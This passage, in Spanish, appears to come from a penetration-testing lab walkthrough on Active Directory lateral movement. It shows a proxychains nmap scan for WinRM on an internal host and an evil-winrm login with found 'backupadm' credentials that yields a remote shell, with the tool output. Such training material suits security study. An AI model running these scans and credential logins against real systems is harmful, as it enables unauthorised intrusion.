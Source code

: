 
## Next Steps

En este punto, hemos investigado el dominio bastante a fondo y hemos encontrado varios conjuntos de credenciales, pero hemos llegado a un punto muerto. Volviendo a lo básico, podemos ejecutar un escaneo para ver si algún host tiene WinRM habilitado e intentar conectarnos con cada conjunto de credenciales.



```r
proxychains nmap -sT -p 5985 172.16.8.50

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 14:59 EDT
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:80-<--timeout
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
Nmap scan report for 172.16.8.50
Host is up (0.12s latency).

PORT     STATE SERVICE
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
```

El host `172.16.8.50`, o `MS01` es el único que nos queda aparte del Domain Controller, así que intentemos con las credenciales del usuario `backupadm`.

¡Funciona, y estamos dentro!



```r
proxychains evil-winrm -i 172.16.8.50 -u backupadm 

ProxyChains-3.1 (http://proxychains.sf.net)
Enter Password: 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents> hostname
ACADEMY-AEN-MS01
```

En este punto, podríamos usar este shell evil-winrm para enumerar aún más el dominio con una herramienta como PowerView. Ten en cuenta que necesitaremos usar un objeto PSCredential para realizar la enumeración desde este shell debido al [Kerberos "Double Hop" problem](https://academy.hackthebox.com/module/143/section/1573). Practica esta técnica y ve qué otras herramientas de enumeración de AD puedes usar de esta manera.
